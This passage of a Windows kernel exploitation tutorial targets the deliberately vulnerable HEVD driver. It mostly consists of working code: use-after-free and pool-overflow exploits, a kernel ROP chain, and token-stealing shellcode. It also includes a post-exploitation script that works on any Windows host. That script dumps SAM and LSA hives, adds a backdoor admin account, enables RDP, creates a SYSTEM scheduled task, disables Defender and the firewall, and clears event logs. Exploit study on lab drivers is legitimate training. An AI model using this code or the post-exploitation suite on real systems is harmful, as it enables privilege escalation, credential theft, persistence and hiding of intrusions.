    # Send many fake objects to increase chance of reclaiming the slot
    fake_buffer = ctypes.create_string_buffer(fake_object)

    for i in range(5000):
        send_ioctl(hDevice, HEVD_IOCTL_FAKE_OBJECT, fake_buffer, len(fake_object))

    print(f"[+] Sprayed 5000 fake objects (Callback → 0x{shellcode_addr:016X})")

    # ==============================================================
    # Phase 7: Trigger Use-After-Free!
    # ==============================================================
    print("\n[*] Phase 7: Triggering Use-After-Free...")
    print("[!] The driver will call g_Object->Callback()...")
    print("[!] Which now points to our token stealing shellcode!")

    send_ioctl(hDevice, HEVD_IOCTL_UAF_USE)

    print("[+] UAF triggered!")

    # ==============================================================
    # Phase 8: Check privilege
    # ==============================================================
    result = subprocess.run(['whoami'], capture_output=True, text=True)
    current_user = result.stdout.strip()
    print(f"\n[*] Current user: {current_user}")

    if 'system' in current_user.lower():
        print("[+] ██████████████████████████████████████████")
        print("[+] ███  USE-AFTER-FREE EXPLOIT SUCCESSFUL! ███")
        print("[+] ███  NT AUTHORITY\\SYSTEM achieved!       ███")
        print("[+] ██████████████████████████████████████████")
        os.system("cmd.exe")

    # Cleanup
    for h in spray_handles:
        if h:
            kernel32.CloseHandle(h)
    for h in spray_handles_defrag:
        kernel32.CloseHandle(h)
    kernel32.CloseHandle(hDevice)


if __name__ == '__main__':
    main()
```

---

## Exploit 4: Pool Overflow

Pool overflows corrupt adjacent pool allocations. The key is **pool grooming** — arranging the pool layout so our target object is adjacent to the vulnerable object.

### Pool Grooming Strategy



### Pool Overflow Exploit

```c
/*
 * HEVD Pool Overflow — Vulnerable Code
 */
NTSTATUS TriggerPoolOverflow(PVOID UserBuffer, SIZE_T Size)
{
    PVOID KernelBuffer = NULL;
    NTSTATUS Status = STATUS_SUCCESS;

    // Allocate pool buffer (0x1F8 bytes + pool header = 0x200 pool block)
    KernelBuffer = ExAllocatePoolWithTag(
        NonPagedPool,
        POOL_BUFFER_SIZE,   // 0x1F8
        POOL_TAG            // 'Hack'
    );

    if (!KernelBuffer) {
        return STATUS_INSUFFICIENT_RESOURCES;
    }

    // VULNERABILITY: Copy user-controlled size into fixed pool buffer!
    // If Size > 0x1F8, we overflow into the next pool allocation
    RtlCopyMemory(KernelBuffer, UserBuffer, Size);

    ExFreePoolWithTag(KernelBuffer, POOL_TAG);
    return Status;
}
```

```python
#!/usr/bin/env python3
"""
HEVD Pool Overflow Exploit
Target: Windows 10 21H2 x64

Strategy:
1. Groom the pool to place a target object adjacent to vulnerable allocation
2. Trigger pool overflow to corrupt the target object's function pointer
3. Trigger the corrupted function pointer → code execution
"""

import ctypes
import ctypes.wintypes as wintypes
import struct
import os

kernel32 = ctypes.WinDLL('kernel32', use_last_error=True)
ntdll = ctypes.WinDLL('ntdll', use_last_error=True)

GENERIC_READ  = 0x80000000
GENERIC_WRITE = 0x40000000
OPEN_EXISTING = 3

HEVD_IOCTL_POOL_OVERFLOW = 0x22200F

POOL_BUFFER_SIZE = 0x1F8  # Driver's pool allocation size
POOL_BLOCK_SIZE  = 0x200  # With pool header

# ==============================================================================
# Pool Grooming with Event Objects
# ==============================================================================

def create_event_objects(count):
    """
    Create kernel Event objects for pool grooming.
    Event objects are 0x40 bytes in NonPagedPool.
    We use them to fill and shape the pool.
    """
    handles = []
    for i in range(count):
        h = kernel32.CreateEventW(None, True, False, None)
        if h:
            handles.append(h)
    return handles


def prepare_overflow_buffer(shellcode_addr):
    """
    Build overflow buffer:
    [0x1F8 bytes - fill vuln allocation] [Pool Header overwrite] [Target data overwrite]
    """
    buffer = b""

    # Fill the vulnerable pool allocation (0x1F8 bytes)
    buffer += b"\x41" * POOL_BUFFER_SIZE

    # Overwrite NEXT pool block's header (16 bytes on x64)
    # We need to craft a valid-looking pool header to avoid BSOD
    pool_header = b""
    pool_header += struct.pack('<B', 0x04)    # PreviousSize (in 16-byte units)
    pool_header += struct.pack('<B', 0x00)    # PoolIndex
    pool_header += struct.pack('<B', 0x04)    # BlockSize (in 16-byte units)
    pool_header += struct.pack('<B', 0x00)    # PoolType
    pool_header += struct.pack('<I', 0x45766E)  # PoolTag ('Eve' for Event)
    pool_header += b"\x00" * 8                 # OPTIONAL_HEADER padding
    buffer += pool_header

    # Overwrite target object's data
    # Replace the TypeIndex or function pointer with shellcode address
    buffer += struct.pack('<Q', shellcode_addr)  # Object body starts here

    return buffer


def main():
    print("=" * 65)
    print("  HEVD Pool Overflow Exploit")
    print("  Target: Windows 10 21H2 x64")
    print("=" * 65)

    # Open device
    hDevice = kernel32.CreateFileW(
        "\\\\.\\HackSysExtremeVulnerableDriver",
        GENERIC_READ | GENERIC_WRITE,
        0, None, OPEN_EXISTING, 0x80, None
    )
    if hDevice == ctypes.c_void_p(-1).value:
        print("[-] Failed to open device")
        return

    print(f"[+] Device handle: 0x{hDevice:X}")

    # Prepare shellcode (same token stealing as before)
    shellcode_addr = kernel32.VirtualAlloc(None, 0x1000, 0x3000, 0x40)
    # ... (shellcode preparation same as previous exploits) ...
    print(f"[+] Shellcode: 0x{shellcode_addr:016X}")

    # Phase 1: Defragment pool
    print("\n[*] Phase 1: Defragmenting pool...")
    defrag = create_event_objects(10000)
    print(f"[+] Created {len(defrag)} defrag objects")

    # Phase 2: Create sequential allocations
    print("[*] Phase 2: Sequential allocation spray...")
    spray = create_event_objects(10000)
    print(f"[+] Created {len(spray)} spray objects")

    # Phase 3: Poke holes
    print("[*] Phase 3: Creating holes...")
    for i in range(0, len(spray), 16):
        for j in range(8):
            if i + j < len(spray):
                kernel32.CloseHandle(spray[i + j])
                spray[i + j] = None

    # Phase 4: Trigger overflow
    print("[*] Phase 4: Triggering pool overflow...")
    overflow_buffer = prepare_overflow_buffer(shellcode_addr)
    buf = ctypes.create_string_buffer(overflow_buffer)
    br = wintypes.DWORD(0)

    kernel32.DeviceIoControl(
        hDevice, HEVD_IOCTL_POOL_OVERFLOW,
        buf, len(overflow_buffer),
        None, 0, ctypes.byref(br), None
    )

    print("[+] Overflow sent!")
    print("[*] If adjacent object's function pointer was corrupted,")
    print("[*] the next use of that object will execute our shellcode.")

    # Cleanup
    for h in spray:
        if h:
            kernel32.CloseHandle(h)
    for h in defrag:
        kernel32.CloseHandle(h)
    kernel32.CloseHandle(hDevice)


if __name__ == '__main__':
    main()
```

---

## Advanced SMEP Bypass — Kernel ROP Without CR4 Flip

On modern Windows, PatchGuard monitors CR4 changes. A more reliable SMEP bypass uses pure data manipulation.

### Method: Data-Only Attack via Token Pointer Overwrite



### Method: ROP to Call Kernel API

Instead of flipping CR4, build a ROP chain that calls legitimate kernel functions to modify the token:

```python
"""
Advanced ROP Strategy: Call kernel functions via ROP chain

Instead of executing shellcode (blocked by SMEP), we chain calls
to legitimate kernel functions that modify our process token.

ROP Chain Pseudocode:
1. Call PsLookupProcessByProcessId(4, &system_eprocess)
   → Gets EPROCESS pointer for System process

2. Call PsReferencePrimaryToken(system_eprocess)
   → Gets System's primary token

3. Call PsGetCurrentProcess()
   → Gets our EPROCESS pointer

4. Write System token to our EPROCESS.Token
   → We now have SYSTEM privileges

5. Clean up and return
"""

def build_kernel_api_rop_chain(kernel_base, offsets):
    """
    Build ROP chain that calls kernel APIs instead of custom shellcode.
    This bypasses SMEP because we only execute legitimate kernel code.
    """
    rop = b""

    # Calculate absolute addresses from offsets
    pop_rcx     = kernel_base + offsets['pop_rcx_ret']
    pop_rdx     = kernel_base + offsets['pop_rdx_ret']
    pop_r8      = kernel_base + offsets['pop_r8_ret']
    mov_rax_rcx = kernel_base + offsets['mov_rax_qword_ptr_rcx_ret']
    mov_rcx_rax = kernel_base + offsets['mov_rcx_rax_ret']

    # Kernel function addresses
    PsLookupProcessByProcessId = kernel_base + offsets['PsLookupProcessByProcessId']
    PsReferencePrimaryToken    = kernel_base + offsets['PsReferencePrimaryToken']
    PsGetCurrentProcess        = kernel_base + offsets['PsGetCurrentProcess']
    ExAllocatePool             = kernel_base + offsets['ExAllocatePoolWithTag']

    # We need a writable kernel address to store intermediate results
    # Use a known writable location in ntoskrnl's data section
    scratch_space = kernel_base + offsets['writable_data_section']

    # ================================================================
    # ROP Gadget 1: PsLookupProcessByProcessId(4, &system_eprocess)
    # ================================================================

    # Set RCX = 4 (System PID)
    rop += struct.pack('<Q', pop_rcx)
    rop += struct.pack('<Q', 4)

    # Set RDX = &scratch_space (output pointer)
    rop += struct.pack('<Q', pop_rdx)
    rop += struct.pack('<Q', scratch_space)

    # Call PsLookupProcessByProcessId
    rop += struct.pack('<Q', PsLookupProcessByProcessId)

    # Now scratch_space contains pointer to System's EPROCESS

    # ================================================================
    # ROP Gadget 2: Read System Token from EPROCESS
    # ================================================================

    # Load System EPROCESS from scratch_space into RCX
    rop += struct.pack('<Q', pop_rcx)
    rop += struct.pack('<Q', scratch_space)
    rop += struct.pack('<Q', mov_rax_rcx)  # RAX = [scratch_space] = System EPROCESS

    # ... continue building chain to read token and write to current process ...

    # ================================================================
    # Final: Return to user mode
    # ================================================================

    # The exact return mechanism depends on the entry point
    # Options: IRETQ, SYSEXIT, or just a normal RET if stack is correct

    return rop
```

---

## Handling Clean Return to User Mode

After kernel shellcode executes, you must return cleanly to user mode to avoid a BSOD. This is one of the trickiest parts.

### IRETQ Return Method

```nasm
; Clean return from kernel mode to user mode using IRETQ
; Must set up the proper interrupt frame on the stack

; IRETQ expects this stack layout:
; [RSP + 0x00]  →  Return RIP (user mode address to return to)
; [RSP + 0x08]  →  Return CS (0x33 for x64 user mode)
; [RSP + 0x10]  →  RFLAGS (saved flags)
; [RSP + 0x18]  →  Return RSP (user mode stack pointer)
; [RSP + 0x20]  →  Return SS (0x2B for x64 user mode)

return_to_usermode:
    ; First, re-enable SMEP if we disabled it (for stability)
    mov rcx, cr4
    or  rcx, 0x100000      ; Set bit 20 (SMEP)
    mov cr4, rcx

    ; Swap GS back to user mode
    swapgs

    ; Set up IRETQ frame
    mov r15, user_mode_rip     ; Address to return to in user mode
    push 0x2B                  ; SS (user mode)
    push r14                   ; RSP (user mode stack — saved earlier)
    push 0x246                 ; RFLAGS (IF=1, IOPL=0)
    push 0x33                  ; CS (user mode x64)
    push r15                   ; RIP (user mode return address)

    iretq                      ; Return to user mode!
```

### Saving User Mode State Before Exploit

```c
/*
 * Before triggering the exploit, save user mode CPU state
 * so we can restore it when returning from kernel mode.
 */

#include <windows.h>
#include <stdio.h>
#include <intrin.h>

// Save these before exploit — restore when returning from kernel
ULONG64 saved_rsp;
ULONG64 saved_rbp;
ULONG64 saved_rflags;
ULONG64 saved_cs;
ULONG64 saved_ss;

void save_state() {
    /*
     * Save current CPU state using inline assembly
     * This will be used by the kernel shellcode to return cleanly
     */

    __asm {
        // Save stack pointer
        mov saved_rsp, rsp
        mov saved_rbp, rbp

        // Save flags
        pushfq
        pop saved_rflags

        // Save segment registers
        mov saved_cs, cs
        mov saved_ss, ss
    }

    printf("[+] State saved:\n");
    printf("    RSP:    0x%llX\n", saved_rsp);
    printf("    RBP:    0x%llX\n", saved_rbp);
    printf("    RFLAGS: 0x%llX\n", saved_rflags);
    printf("    CS:     0x%llX\n", saved_cs);
    printf("    SS:     0x%llX\n", saved_ss);
}

// This is the function we return to after the exploit
void recovery_point() {
    printf("\n[+] ═══════════════════════════════════════\n");
    printf("[+]   Successfully returned from kernel mode!\n");
    printf("[+] ═══════════════════════════════════════\n\n");

    // Check if we got SYSTEM
    system("whoami");

    // Spawn elevated shell
    system("cmd.exe");
}
```

**Complete shellcode with clean return:**

```nasm
; Complete Token Stealing Shellcode with IRETQ return
; Target: Windows 10/11 21H2+ x64

[BITS 64]

_start:
    ; ========================================
    ; Part 1: Token Stealing
    ; ========================================

    ; Get current EPROCESS
    mov rax, [gs:0x188]         ; KPCR.Prcb.CurrentThread
    mov rax, [rax + 0x220]      ; KTHREAD.ApcState.Process
    mov rbx, rax                ; Save our EPROCESS in RBX

    ; Walk ActiveProcessLinks to find System (PID 4)
.find_system:
    mov rax, [rax + 0x448]      ; ActiveProcessLinks.Flink
    sub rax, 0x448              ; Back to start of EPROCESS
    cmp dword [rax + 0x440], 4  ; Check PID
    jne .find_system

    ; Copy System token to our process
    mov rcx, [rax + 0x4B8]      ; System Token
    and cl, 0xF0                ; Clear reference count bits (low 4 bits)
    mov [rbx + 0x4B8], rcx      ; Overwrite our token

    ; ========================================
    ; Part 2: Re-enable SMEP (if we disabled it)
    ; ========================================
    mov rax, cr4
    or  rax, 0x100000           ; Set SMEP bit (bit 20)
    mov cr4, rax

    ; ========================================
    ; Part 3: Return to user mode via IRETQ
    ; ========================================

    ; Swap GS back (kernel → user)
    swapgs

    ; Build IRETQ frame
    ; These values come from save_state() called before the exploit
    push qword [rel saved_ss]       ; SS
    push qword [rel saved_rsp]      ; RSP
    push qword [rel saved_rflags]   ; RFLAGS
    push qword [rel saved_cs]       ; CS
    push qword [rel recovery_func]  ; RIP (return to recovery_point())

    iretq                           ; Return to user mode!

; ========================================
; Data section (filled by exploit code)
; ========================================
saved_ss:        dq 0x2B
saved_rsp:       dq 0                ; Filled at runtime
saved_rflags:    dq 0x246
saved_cs:        dq 0x33
recovery_func:   dq 0                ; Filled at runtime (address of recovery_point)
```

---

## Post-Exploitation After Kernel Exploit

After achieving SYSTEM, here is what you can do and how to maintain access:

### Immediate Post-Exploitation

```python
#!/usr/bin/env python3
"""
Post-exploitation actions after achieving SYSTEM via kernel exploit.
"""

import subprocess
import os
import ctypes
import sys


def verify_system():
    """Verify we are running as SYSTEM."""
    result = subprocess.run(['whoami'], capture_output=True, text=True)
    user = result.stdout.strip()
    print(f"[+] Current user: {user}")

    result = subprocess.run(['whoami', '/priv'], capture_output=True, text=True)
    print(f"[+] Privileges:\n{result.stdout}")

    return 'system' in user.lower()


def dump_credentials():
    """Dump credentials using various methods."""
    print("\n[*] === Credential Harvesting ===")

    # Method 1: SAM database
    print("\n[1] Dumping SAM hashes...")
    os.system("reg save HKLM\\SAM C:\\temp\\sam.hive /y 2>nul")
    os.system("reg save HKLM\\SYSTEM C:\\temp\\system.hive /y 2>nul")
    os.system("reg save HKLM\\SECURITY C:\\temp\\security.hive /y 2>nul")
    print("[+] Registry hives saved to C:\\temp\\")
    print("[+] Use secretsdump.py to extract hashes:")
    print("    secretsdump.py -sam sam.hive -system system.hive -security security.hive LOCAL")

    # Method 2: LSA secrets
    print("\n[2] Dumping LSA secrets...")
    os.system("reg query HKLM\\SECURITY\\Policy\\Secrets 2>nul")

    # Method 3: Cached credentials
    print("\n[3] Checking for cached domain credentials...")
    os.system("reg query \"HKLM\\SECURITY\\Cache\" 2>nul")

    # Method 4: WiFi passwords
    print("\n[4] Dumping WiFi passwords...")
    os.system("netsh wlan show profiles")


def install_persistence():
    """Install persistence mechanisms."""
    print("\n[*] === Persistence Options ===")

    # Method 1: Create admin user
    print("\n[1] Creating backdoor admin account...")
    os.system("net user backdoor P@ssw0rd123! /add 2>nul")
    os.system("net localgroup Administrators backdoor /add 2>nul")
    print("[+] Created: backdoor / P@ssw0rd123!")

    # Method 2: Enable RDP
    print("\n[2] Enabling RDP...")
    os.system('reg add "HKLM\\System\\CurrentControlSet\\Control\\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f 2>nul')
    os.system("netsh advfirewall firewall add rule name=\"RDP\" protocol=TCP dir=in localport=3389 action=allow 2>nul")
    print("[+] RDP enabled on port 3389")

    # Method 3: Scheduled task
    print("\n[3] Creating scheduled task for persistence...")
    os.system('schtasks /create /tn "WindowsUpdate" /tr "C:\\Windows\\Temp\\payload.exe" /sc onlogon /ru SYSTEM /f 2>nul')
    print("[+] Scheduled task created")


def lateral_movement_recon():
    """Gather information for lateral movement."""
    print("\n[*] === Lateral Movement Reconnaissance ===")

    # Network info
    print("\n[1] Network Configuration:")
    os.system("ipconfig /all")

    # Domain info
    print("\n[2] Domain Information:")
    os.system("net config workstation")
    os.system("nltest /dclist: 2>nul")

    # Connected users and sessions
    print("\n[3] Active Sessions:")
    os.system("quser 2>nul")
    os.system("net session 2>nul")

    # Network shares
    print("\n[4] Network Shares:")
    os.system("net share")
    os.system("net view 2>nul")

    # ARP table
    print("\n[5] ARP Table (nearby hosts):")
    os.system("arp -a")

    # Routing table
    print("\n[6] Routing Table:")
    os.system("route print")


def disable_defenses():
    """Disable security products (requires SYSTEM)."""
    print("\n[*] === Disabling Defenses ===")

    # Disable Windows Defender
    print("\n[1] Disabling Windows Defender...")
    os.system('powershell -c "Set-MpPreference -DisableRealtimeMonitoring $true" 2>nul')
    os.system('powershell -c "Set-MpPreference -DisableIOAVProtection $true" 2>nul')

    # Disable firewall
    print("\n[2] Disabling Windows Firewall...")
    os.system("netsh advfirewall set allprofiles state off 2>nul")

    # Disable event logging
    print("\n[3] Clearing event logs...")
    os.system('wevtutil cl System 2>nul')
    os.system('wevtutil cl Security 2>nul')
    os.system('wevtutil cl Application 2>nul')
    print("[+] Event logs cleared")


def main():
    print("=" * 60)
    print("  Post-Exploitation Suite")
    print("  (Requires SYSTEM privileges)")
    print("=" * 60)

    if not verify_system():
        print("[-] Not running as SYSTEM. Aborting.")
        sys.exit(1)

    print("\n[+] Running as SYSTEM! Available actions:")
    print("  1. Dump credentials")
    print("  2. Install persistence")
    print("  3. Lateral movement recon")
    print("  4. Disable defenses")
    print("  5. All of the above")
    print("  6. Interactive SYSTEM shell")

    choice = input("\n[?] Choose action (1-6): ").strip()

    if choice == '1':
        dump_credentials()
    elif choice == '2':
        install_persistence()
    elif choice == '3':
        lateral_movement_recon()
    elif choice == '4':
        disable_defenses()
    elif choice == '5':
        dump_credentials()
        install_persistence()
        lateral_movement_recon()
        disable_defenses()
    elif choice == '6':
        os.system("cmd.exe")


if __name__ == '__main__':
    main()
```

---

## Debugging Kernel Exploits — Crash Analysis

When your exploit causes a BSOD (Blue Screen of Death), here is how to analyze it:

### Common Bug Check Codes

| Bug Check | Code | Meaning | Likely Cause |
|-----------|------|---------|--------------|
| SYSTEM_SERVICE_EXCEPTION | 0x3B | Exception in system call | Bad return address from overflow |
| KERNEL_MODE_EXCEPTION_NOT_HANDLED | 0x8E | Unhandled exception | Bad shellcode or corrupted state |
| PAGE_FAULT_IN_NONPAGED_AREA | 0x50 | Invalid memory access | Bad pointer in pool overflow |
| CRITICAL_STRUCTURE_CORRUPTION | 0x109 | PatchGuard detected modification | CR4 flip detected |
| KERNEL_SECURITY_CHECK_FAILURE | 0x139 | Stack cookie (/GS) triggered | Stack overflow in protected function |
| DRIVER_IRQL_NOT_LESS_OR_EQUAL | 0xD1 | Access violation at DISPATCH_LEVEL | Pool corruption at wrong IRQL |
| BAD_POOL_HEADER | 0x19 | Pool header corruption | Pool overflow went too far |
| SPECIAL_POOL_DETECTED_MEMORY_CORRUPTION | 0xC1 | Special pool caught overflow | Driver verifier caught the bug |

### Crash Analysis Workflow in WinDbg

```text
; ============================================================
; Step 1: Load crash dump
; ============================================================
; Open WinDbg → File → Open Crash Dump → Select MEMORY.DMP

; ============================================================
; Step 2: Automatic analysis
; ============================================================
kd> !analyze -v

*******************************************************************************
*                        Bugcheck Analysis                                    *
*******************************************************************************

SYSTEM_SERVICE_EXCEPTION (3b)
An exception happened while executing a system service routine.
Arguments:
Arg1: 00000000c0000005, Exception code (STATUS_ACCESS_VIOLATION)
Arg2: fffff801123456789, Exception address (where the crash occurred)
Arg3: ffffd001a2b3c4e0, Exception context record
Arg4: 0000000000000000, Exception information

EXCEPTION_RECORD:  ffffd001a2b3c4e0 -- (.exr ffffd001a2b3c4e0)
ExceptionAddress: 4141414141414141     ← Our overflow pattern!
   ExceptionCode: c0000005 (Access violation)
  ExceptionFlags: 00000000
NumberParameters: 2
   Parameter[0]: 0000000000000008     ← Execute violation (SMEP!)
   Parameter[1]: 4141414141414141     ← Tried to execute at this address

STACK_TEXT:
ffffd001`a2b3c4e0 : 41414141`41414141 : HEVD!TriggerStackOverflow+0x58
ffffd001`a2b3c560 : fffff801`12345678 : HEVD!StackOverflowIoctlHandler+0x1a
ffffd001`a2b3c5a0 : fffff801`12345700 : HEVD!IrpDeviceIoCtlHandler+0x68
ffffd001`a2b3c600 : fffff802`0a567890 : nt!IopXxxControlFile+0x5e3

; ============================================================
; Step 3: Examine the context at crash
; ============================================================
kd> .cxr ffffd001a2b3c4e0
rax=0000000000000000 rbx=ffffe00112345678 rcx=ffffd001a2b3c7e0
rdx=0000000000000001 rsi=0000000000000000 rdi=0000000000000000
rip=4141414141414141 rsp=ffffd001a2b3c4e0 rbp=4242424242424242
 r8=0000000000000000  r9=0000000000000000 r10=0000000000000000
r11=0000000000000000 r12=0000000000000000 r13=0000000000000000
r14=0000000000000000 r15=0000000000000000
iopl=0         nv up ei pl zr na po nc
cs=0010  ss=0018  ds=002b  es=002b  fs=0053  gs=002b

; RIP = 0x4141414141414141 → Our 'A' pattern!
; RBP = 0x4242424242424242 → Our 'B' pattern!
; This confirms we control RIP at offset 2056

; ============================================================
; Step 4: Examine the stack
; ============================================================
kd> dqs rsp L20
ffffd001`a2b3c4e0  41414141`41414141   ← Our overflow data
ffffd001`a2b3c4e8  41414141`41414141
ffffd001`a2b3c4f0  41414141`41414141
ffffd001`a2b3c4f8  41414141`41414141
ffffd001`a2b3c500  00000000`00000000   ← End of our buffer

; ============================================================
; Step 5: Check kernel module at crash
; ============================================================
kd> lmvm HEVD
start             end                 module name
fffff801`12340000 fffff801`12350000   HEVD
    Image path: \??\C:\HEVD\HEVD.sys
    Image name: HEVD.sys
    Timestamp:  Thu Jan 25 10:00:00 2024

; ============================================================
; Step 6: Verify our pool grooming (for pool exploits)
; ============================================================
kd> !pool ffffe001`23456780
Pool page ffffe001`23456780 region is Nonpaged pool
 ffffe001`23456700 size:  200 previous size:    0  (Allocated)  Hack   ← Our vulnerable allocation
 ffffe001`23456900 size:   40 previous size:  200  (Allocated)  Even   ← Adjacent event object (target!)
 ffffe001`23456940 size:   40 previous size:   40  (Free)       ....

; Perfect! Our vulnerable allocation is right next to the target!
```

---

## Real-World CVE Walkthrough: CVE-2021-1732

Let us analyze a real Windows kernel vulnerability to see how these techniques apply to actual CVEs.

### CVE-2021-1732 Overview



### Analysis of the Vulnerability

```c
/*
 * CVE-2021-1732 — Simplified vulnerability explanation
 *
 * The bug exists in how win32k handles "extra bytes" for window classes.
 * When a window is created with extra bytes (cbWndExtra), the kernel
 * allocates them in a tagWND structure. A user-mode callback during
 * creation allows the attacker to change the expected size.
 */

// 1. Attacker registers a window class with cbWndExtra = SMALL_SIZE
WNDCLASSEX wc = {0};
wc.cbSize = sizeof(WNDCLASSEX);
wc.lpfnWndProc = CustomWndProc;
wc.cbWndExtra = 0x20;   // Request 0x20 extra bytes
wc.lpszClassName = L"VulnClass";
RegisterClassEx(&wc);

// 2. Attacker creates a window (triggers kernel allocation)
HWND hWnd = CreateWindowEx(0, L"VulnClass", L"", WS_OVERLAPPEDWINDOW,
                           0, 0, 100, 100, NULL, NULL, NULL, NULL);

// 3. During creation, the kernel calls back to user mode
//    (xxxClientAllocWindowClassExtraBytes)
//    In the callback, attacker changes the interpretation of the extra bytes

// 4. The kernel now thinks extra bytes are at a different offset/size
//    This creates an Out-of-Bounds read/write condition!

// 5. Attacker uses SetWindowLong/GetWindowLong with crafted offsets
//    to read/write arbitrary kernel memory

// Read from kernel memory (OOB read):
LONG_PTR leaked_value = GetWindowLongPtr(hWnd, controlled_offset);

// Write to kernel memory (OOB write):
SetWindowLongPtr(hWnd, controlled_offset, attacker_value);

// 6. Using this primitive, perform data-only token stealing
//    No shellcode execution needed — bypasses SMEP, SMAP, HVCI!
```

### Exploitation Pattern for Modern win32k Bugs

```python
"""
Generic exploitation pattern for win32k type confusion / UAF bugs.
This pattern is used in many win32k CVEs.
"""

import ctypes
import ctypes.wintypes as wintypes

user32 = ctypes.WinDLL('user32')

def exploit_win32k_typeconfusion():
    """
    Generic win32k exploitation flow:
    1. Create crafted window objects
    2. Trigger vulnerability (type confusion / UAF)
    3. Use GetWindowLongPtr/SetWindowLongPtr as read/write primitives
    4. Data-only token stealing
    """

    # Step 1: Register custom window class
    WNDPROC = ctypes.WINFUNCTYPE(
        ctypes.c_long,           # Return type (LRESULT)
        wintypes.HWND,           # hWnd
        ctypes.c_uint,           # message
        wintypes.WPARAM,         # wParam
        wintypes.LPARAM          # lParam
    )

    def custom_wndproc(hwnd, msg, wparam, lparam):
        """
        Custom window procedure.
        During specific messages, we can manipulate kernel state.
        """
        # Hook specific messages for exploitation
        WM_NCCREATE = 0x0081

        if msg == WM_NCCREATE:
            # This is where many win32k bugs are triggered
            # The kernel calls back to user mode during window creation
            # We can manipulate objects here
            pass

        return user32.DefWindowProcW(hwnd, msg, wparam, lparam)

    wndproc_callback = WNDPROC(custom_wndproc)

    # Step 2: Create window with specific extra bytes
    # The exact size and count depends on the vulnerability

    # Step 3: Trigger vulnerability
    # This is CVE-specific

    # Step 4: Use read/write primitives
    # GetWindowLongPtr provides arbitrary kernel read
    # SetWindowLongPtr provides arbitrary kernel write

    # Step 5: Token stealing
    # Read SYSTEM EPROCESS → Read SYSTEM token → Overwrite our token

    print("[*] This is a template — actual exploitation requires")
    print("[*] CVE-specific trigger code and kernel object layout knowledge.")
```

---

## Exploit Stability and Anti-BSOD Techniques



### Stability Checklist

```text
Before triggering exploit:
  ✓ Save user-mode register state (RSP, RBP, RFLAGS, CS, SS)
  ✓ Prepare recovery function address
  ✓ Verify KASLR leak is accurate (compare multiple leaks)
  ✓ Verify ROP gadgets are correct for target kernel version

In kernel shellcode:
  ✓ Save ALL non-volatile registers (RBX, RBP, RSI, RDI, R12-R15)
  ✓ Don't corrupt kernel stack frames above you
  ✓ Re-enable SMEP before returning (if you disabled it)
  ✓ Execute SWAPGS before IRETQ
  ✓ Align RSP to 16 bytes before IRETQ
  ✓ Set correct segment selectors (CS=0x33, SS=0x2B for x64 user mode)

For pool exploits:
  ✓ Repair corrupted pool headers
  ✓ Set valid PoolTag in overwritten header
  ✓ Maintain correct PreviousSize/BlockSize fields
  ✓ Don't corrupt more than one adjacent allocation

After exploit:
  ✓ Close all spray handles (prevent pool leaks)
  ✓ Verify SYSTEM privileges before spawning shell
  ✓ Don't call kernel32.CloseHandle on invalid handles
  ✓ Exit exploit process cleanly
```

---

## Complete Exploit Development Toolkit

### Essential Tools

| Tool | Purpose | Link |
|------|---------|------|
| **WinDbg Preview** | Kernel debugging | [Microsoft Store](https://apps.microsoft.com/store/detail/windbg-preview/9PGJGD53TN86) |
| **IDA Pro / Ghidra** | Driver reverse engineering | [hex-rays.com](https://hex-rays.com) / [ghidra-sre.org](https://ghidra-sre.org) |
| **ROPgadget** | Finding ROP gadgets | `pip install ROPgadget` |
| **rp++** | Fast ROP gadget finder | [GitHub](https://github.com/0vercl0k/rp) |
| **HEVD** | Practice vulnerable driver | [GitHub](https://github.com/hacksysteam/HackSysExtremeVulnerableDriver) |
| **OSR Driver Loader** | Load test drivers easily | [OSR](https://www.osr.com/developer/tools/) |
| **Process Hacker** | View kernel objects, tokens, handles | [processhacker.sourceforge.io](https://processhacker.sourceforge.io) |
| **WinObjEx64** | Browse Windows kernel object namespace | [GitHub](https://github.com/hfiref0x/WinObjEx64) |
| **DebugView** | View DbgPrint output from drivers | [Sysinternals](https://learn.microsoft.com/en-us/sysinternals/downloads/debugview) |
| **Driver Verifier** | Catch driver bugs (pool corruption, etc.) | Built into Windows (`verifier.exe`) |

### Setting Up Driver Verifier for Exploit Development

```powershell
# Enable Driver Verifier for HEVD (catches bugs faster)
verifier /standard /driver HEVD.sys

# Enable Special Pool (detects pool overflows immediately)
verifier /flags 0x1 /driver HEVD.sys

# Check current settings
verifier /query

# Disable when done (requires reboot)
verifier /reset
```

---

## Learning Path — What to Study Next



### Recommended Study Order for HEVD

| # | Vulnerability | Difficulty | Key Concepts |
|---|--------------|------------|-------------|
| 1 | Stack Buffer Overflow | ⭐ Easy | RIP control, ROP basics, SMEP bypass |
| 2 | Write-What-Where | ⭐ Easy | HalDispatchTable, arbitrary write |
| 3 | Type Confusion | ⭐⭐ Medium | Object layout, function pointer overwrite |
| 4 | Integer Overflow | ⭐⭐ Medium | Integer arithmetic, heap/pool overflow |
| 5 | NULL Pointer Dereference | ⭐⭐ Medium | NULL page mapping (older Windows) |
| 6 | Use-After-Free | ⭐⭐⭐ Hard | Pool spray, object reclaim, timing |
| 7 | Pool Overflow | ⭐⭐⭐ Hard | Pool grooming, header repair, adjacent objects |
| 8 | Uninitialized Variable | ⭐⭐⭐ Hard | Stack spray, controlled uninitialized data |
| 9 | Double Fetch | ⭐⭐⭐⭐ Expert | Race conditions, multi-threading, TOCTOU |

### Essential Reading

| Resource | Type | Topics |
|----------|------|--------|
| [Connor McGarr's Blog](https://connormcgarr.github.io/) | Blog | HEVD walkthroughs, modern exploit techniques |
| [j00ru's Blog](https://j00ru.vexillium.org/) | Blog | Win32k research, pool internals |
| [MSRC Blog](https://msrc.microsoft.com/blog/) | Blog | Microsoft's perspective on mitigations |
| [Project Zero Blog](https://googleprojectzero.blogspot.com/) | Blog | Cutting-edge vulnerability research |
| [Exodus Intelligence](https://blog.exodusintel.com/) | Blog | Advanced exploit development |
| Windows Internals 7th Ed | Book | Core OS architecture |
| Windows Kernel Programming | Book | Driver development fundamentals |
| Rootkits and Bootkits | Book | Advanced kernel attack techniques |
| A Guide to Kernel Exploitation | Book | Cross-platform kernel exploitation |

---

## Quick Reference Card

### Critical Offsets (Windows 10/11 21H2+, x64)

```text
Structure/Register          Offset    Description
─────────────────────────────────────────────────────────
GS:[0x188]                  -         Current KTHREAD
KTHREAD + 0x220             ApcState  Current EPROCESS (ApcState.Process)
EPROCESS + 0x440            -         UniqueProcessId (PID)
EPROCESS + 0x448            -         ActiveProcessLinks (LIST_ENTRY)
